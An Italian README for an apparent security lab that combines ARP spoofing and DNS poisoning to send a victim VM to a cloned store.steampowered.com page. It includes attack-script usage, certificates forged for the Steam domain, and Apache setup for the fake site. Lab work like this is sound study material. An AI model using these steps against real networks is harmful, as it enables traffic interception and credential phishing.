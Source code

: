 # Attacco di phishing con DNS poisoning

# Cos'è il DNS poisoning?

L'attacco **DNS poisoning** vuole inserire record fasulli in risposta a query DNS, con lo scopo di ingannare la vittima. Con il **phishing** si vuole portare la vittima ad un sito web fasullo, all'apparenza identico all'originale. L'attacco prevede che l'url associato al sito web presenti il dominio originale, non destando sospetti agli occhi della vittima.

# Utilizzo

## ARP spoofing
Il primo step prevede di realizzare un attacco MITM (Man in the middle) grazie all'ARP spoofing, tramite il comando:
~~~console
$ sudo python3 arp_spoofing.py -s DNS_SERVER_IP -t TARGET_IP
~~~

~~~console
usage: arp_poisoning.py [-h] [-s SERVER] [-t TARGET]

options:
- `-h`, `--help`: Show this help message and exit
- `-s SERVER`, `--server SERVER`: IP address of the gateway/DNS server
- `-t TARGET`, `--target TARGET`: IP address of the target
~~~


Verranno mandati pacchetti ARP alle due macchine indicate tra i parametri del comando. Dopo l'attacco:
- il *server DNS* manderà all'attaccante il traffico verso il *target*; 
- il *target* manderà all'attaccante il traffico verso il *server DNS*.

## DNS poisoning
Il secondo step prevede di modificare solo i pacchetti di tipo DNS Resource Record (DNS reply) verso *store.steampowered.com.* indirizzando il traffico verso l'indirizzo IP indicato.
~~~console
$ sudo python3 dns_poisoning.py -i ATTACKER_IP
~~~

~~~console
usage: dns_poisoning.py [-h] [-i IP]

options:
- `-h`, `--help`: Show this help message and exit
- `-i IP`, `--ip`: IP address to spoof
~~~

Dopo l'attacco, in seguito alla ricezione di un pacchetto DNS reply:
- se il pacchetto presenta nella qname *store.steampowered.com.*, nella risposta l'IP effettivo viene sostituito dall' *ATTACKER_IP* indicato; 
- altrimenti viene fatto il redirect senza modifiche.

# Steps per ricreare l'attacco

## Setup Virtualbox

C'è bisogno di 4 VM:
- Kali Linux 2023-1 (attaccante)        192.168.56.102
- Ubuntu Server 22.04 (server Steam)    192.168.56.103
- Windows VM (vittima)                  192.168.56.104
- Ubuntu Server 22.04 (server DNS)      192.168.56.106

Le macchine devono essere in modalità network host-only con gli indirizzi IP statici indicati.

## Setup BIND

Il server DNS deve installare bind9 e ricopiare la configurazione riportata nella cartella *bind*. Per l'installazione seguire le istruzioni in questo link: https://www.digitalocean.com/community/tutorials/how-to-configure-bind-as-a-private-network-dns-server-on-ubuntu-22-04

## Setup Steam DNS

Installare apache2 nella macchina virtuale. Creare certificati con questa serie di comandi:

~~~bash
$ cd /etc/ssl/
$ mkdir steam_certs
$ cd steam_certs/
$ openssl genrsa -des3 -out rootCA.key 4096
$ openssl req -x509 -new -nodes -key rootCA.key -sha256 -days 1024 -out rootCA.crt
$ openssl genrsa -out SERVER.key 2048
$ openssl req -new -sha256 \
    -key SERVER.key \
    -subj "/C=US/ST=Washington/O=ORG/OU=ORG_UNIT/CN=store.steampowered.com" \
    -reqexts SAN \
    -config <(cat /etc/ssl/openssl.cnf <(printf "\n[SAN]\nsubjectAltName=DNS:store.steampowered.com")) \
    -out SERVER.csr
$ openssl x509 -req -extfile <(printf "subjectAltName=DNS:store.steampowered.com") -days 120 -in SERVER.csr -CA rootCA.crt -CAkey rootCA.key -CAcreateserial -out SERVER.crt -sha256
~~~

Modificare il file in /etc/apache2/sites-available
~~~bash
$ cd /etc/apache2/sites-available/
$ mv 000-default.conf store.steampowered.com.conf
$ nano store.steampowered.com.conf
~~~

~~~bash
<VirtualHost *:80>
        ServerAdmin webmaster@localhost
        Redirect / https://store.steampowered.com/
</VirtualHost>

<VirtualHost *:80>
        ServerName store.steampowered.com
        Redirect / https://store.steampowered.com/
</VirtualHost>

<VirtualHost *:443>
   ServerName store.steampowered.com
   DocumentRoot /var/www/html

   SSLEngine on
   SSLCertificateFile /etc/ssl/steam_certs/SERVER.crt
   SSLCertificateKeyFile /etc/ssl/steam_certs/SERVER.key
</VirtualHost>
~~~

Abilita il file di configurazione
~~~bash
sudo a2ensite store.steampowered.com.conf
~~~

Copiare la cartella fake_website come /var/www/html

Reload di apache2
~~~bash
sudo systemctl reload apache2
~~~

## Setup Webserver Kali

Per kali è stato scelto il dominio *www.cybersec.local* come dominio locale, la differenza con Steam è che il redirect a https non è previsto e che il certificato prevede sia www.cybersec.local che store.steampowered.com come alternate name.

~~~bash
sudo nano /etc/hosts
~~~

~~~bash
127.0.0.1       localhost
127.0.1.1       kali
127.0.0.1       www.cybersec.local
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters
~~~

Seguire la stessa procedura per la generazione dei certificati, questa volta salvati in /etc/ssl/cybersec_certs, modificando i domini accettati:
~~~bash
$ openssl req -new -sha256 \
    -key SERVER.key \
    -subj "/C=US/ST=Washington/O=ORG/OU=ORG_UNIT/CN=store.steampowered.com" \
    -reqexts SAN \
    -config <(cat /etc/ssl/openssl.cnf <(printf "\n[SAN]\nsubjectAltName=DNS:store.steampowered.com;DNS:www.cybersec.local")) \
    -out SERVER.csr
$ openssl x509 -req -extfile <(printf "subjectAltName=DNS:store.steampowered.com;DNS:www.cybersec.local") -days 120 -in SERVER.csr -CA rootCA.crt -CAkey rootCA.key -CAcreateserial -out SERVER.crt -sha256
~~~
Modificare il file in /etc/apache2/sites-available
~~~bash
$ cd /etc/apache2/sites-available/
$ mv 000-default.conf www.cybersec.local.conf
$ nano www.cybersec.local.conf
~~~
~~~bash
<VirtualHost *:80>
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/cybersec
</VirtualHost>

<VirtualHost *:80>
        ServerName www.cybersec.local
        DocumentRoot /var/www/cybersec
</VirtualHost>

<VirtualHost *:443>
   ServerName www.cybersec.local
   DocumentRoot /var/www/cybersec

   SSLEngine on
   SSLCertificateFile /etc/ssl/cybersec_certs/SERVER.crt
   SSLCertificateKeyFile /etc/ssl/cybersec_certs/SERVER.key
</VirtualHost>
~~~

Copiare la cartella fake_website come /var/www/cybersec

Reload di apache2
~~~bash
sudo systemctl reload apache2
~~~

## Eseguire gli script

Copiare e far partire gli script da Kali:

~~~bash
$ python3 arp_spoofing.py -s 192.168.56.106 -t 192.168.56.104
$ python3 dns_poisoning.py -i 192.168.56.102
~~~

## Testing

Accedere a *store.steampowered.com* dalla macchina Windows.

